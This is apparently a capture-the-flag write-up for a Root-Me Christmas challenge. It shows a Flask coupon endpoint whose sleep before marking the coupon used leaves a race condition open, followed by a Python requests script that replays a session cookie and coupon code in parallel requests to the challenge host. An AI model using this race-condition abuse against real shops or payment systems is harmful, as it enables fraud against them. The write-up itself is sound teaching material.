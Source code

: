 The website is written in Python and based on Flask. The interesting
part is located in [routes.py](./src/10-route-mi/app/app/routes.py).

When we press the button to get a coupon, a POST request to
`/discount` is made. Here is an extract from `routes.py`.

```
def anti_bruteforce(time):
    return sleep(time)
	
@app.route('/discount', methods=['POST'])
@login_required
def discount():
    user = User.query.get(session['user_id'])
    coupon_code = request.form.get('coupon_code')

    coupon = Coupon.query.filter_by(user_id=user.id, code=coupon_code).first()

    balance = int(user.balance)
    if coupon:
        if not coupon.used:
            balance += 5.0
            user.balance = balance
            db.session.commit()

            anti_bruteforce(2)

            coupon.used = True
            user.can_use_coupon = False
            db.session.commit()
            flash("Your account has been credited with 5€ !")
        else:
            flash("This coupon has already been used.")
    else:
        flash("This coupon is invalid or does not belong to you.")

    return redirect(url_for('account'))
```

The vulnerability here is a race condition: when we submit a coupon,
the user's balance is increased and a sleep of 2 seconds is done before
the coupon is marked as used. If we do several parallel requests
during the sleep, we might use several times the coupon to get credit...

We have then to do 10 parallel POST requests to the endpoint
`/discount` using the coupon corresponding to the currently logged
user. 

I first tried to use `curl` but I failed because of skill
issues. Instead, I wrote a small Python script to do a single request
and launched it 20 times in parallel with a Bash script.

```python
import requests

# session cookie corresponding to the account to credit, retrieved from Firefox
cookies = {'session':"eyJ1c2VyX2lkIjoyMjY4fQ.Z1iaiA.u-S7Db8J6_CQZVBSpvWl-tCuiPU" }
data = {'coupon_code': 'dd4df3f4-8c24-4642-83e2-caad6a9be552'}

requests.post("https://day10.challenges.xmas.root-me.org/discount", cookies=cookies, data=data, verify=False
```
